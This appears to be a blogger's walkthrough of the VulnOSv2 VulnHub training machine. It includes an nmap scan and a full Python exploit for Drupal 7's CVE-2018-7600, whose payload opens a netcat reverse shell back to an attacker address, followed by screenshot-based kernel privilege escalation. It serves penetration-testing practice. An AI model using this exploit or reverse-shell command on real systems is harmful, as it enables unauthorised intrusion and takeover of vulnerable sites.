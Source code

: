 ```yaml
---
layout: default
title : muzec - VulnOSv2 Writeup
---
```


VulnOS are a series of vulnerable operating systems packed as virtual images to enhance penetration testing skills.

Your assignment is to pentest a company website, get root of the system and read the final flag aslo rated an OSCP like machine it really fun grab a copy here [Download VulnOSv2 Here](https://www.vulnhub.com/entry/vulnos-2,147/) .

![image](https://user-images.githubusercontent.com/69868171/119294070-a39f4980-bc21-11eb-97ba-35675844ae35.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/vulnos2]
└─$ nmap -sC -sV -oA nmap 172.16.139.181 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-23 20:53 EDT
Nmap scan report for 172.16.139.181
Host is up (0.00020s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

Not wasting to much of time we are checking the HTTP port first to see what is running on the web server very important.

![image](https://user-images.githubusercontent.com/69868171/119294070-a39f4980-bc21-11eb-97ba-35675844ae35.png)

Clicking on the website link redirect us to another page which seems to be running drupal 7 `http://172.16.139.181/jabc/` not going to explain how to exploit drupal 7 again i think have explaing through out my recent post.

![image](https://user-images.githubusercontent.com/69868171/119294734-207ef300-bc23-11eb-84ce-51cdc35b23fb.png)

Seems we know drupal 7 is vulnerable let get our reverse shell.

![image](https://user-images.githubusercontent.com/69868171/119294895-80759980-bc23-11eb-8dcb-6ac5712e5a91.png)

Running our exploit give us back a reverse and we spawn a TTY shell cool right?? if you are having problem on how to exploit the drupal 7 exploit code below;

```
#!/usr/bin/env python3

"""
Written by Christian Mehlmauer
  https://firefart.at/
  https://twitter.com/_FireFart_
  https://github.com/FireFart

This script can be obtained from:
  https://github.com/FireFart/CVE-2018-7600

Requirements:
  - python3
  - python requests (pip install requests)

Usage:
  - Install dependencies
  - modify the HOST variable in the script
  - run the code
  - win
"""

import requests
import re

HOST="http://172.16.139.181/jabc/"

get_params = {'q':'user/password', 'name[#post_render][]':'passthru', 'name[#markup]':'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.20.10.4 1337 >/tmp/f', 'name[#type]':'markup'}
post_params = {'form_id':'user_pass', '_triggering_element_name':'name'}
r = requests.post(HOST, data=post_params, params=get_params)

m = re.search(r'<input type="hidden" name="form_build_id" value="([^"]+)" />', r.text)
if m:
    found = m.group(1)
    get_params = {'q':'file/ajax/name/#value/' + found}
    post_params = {'form_build_id':found}
    r = requests.post(HOST, data=post_params, params=get_params)
    print(r.text)
```

Save in a file in python edit the host and the port to get a reverse shell it easy now let move to the next part.

![image](https://user-images.githubusercontent.com/69868171/119295166-23c6ae80-bc24-11eb-9c15-24ba9602cca9.png)

We don't have access to any of the user directory let check the version the server is running maybe it the way to root.

### Privilege Escalation

![image](https://user-images.githubusercontent.com/69868171/119295262-67211d00-bc24-11eb-8dd7-51f053516891.png)

Cool it running old version checking for available exploit.

![image](https://user-images.githubusercontent.com/69868171/119295333-9c2d6f80-bc24-11eb-9fa8-a062dcd480c9.png)

Let download it to the target and compile it.

![image](https://user-images.githubusercontent.com/69868171/119295503-f7f7f880-bc24-11eb-9c47-8dbdb417c15b.png)

Now let run it.

![image](https://user-images.githubusercontent.com/69868171/119295560-12ca6d00-bc25-11eb-926f-f7ce54cebf60.png)

We are root let get the flag.txt .

![image](https://user-images.githubusercontent.com/69868171/119295603-2d9ce180-bc25-11eb-89e8-ec8b41739d27.png)

Box rooted and we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>


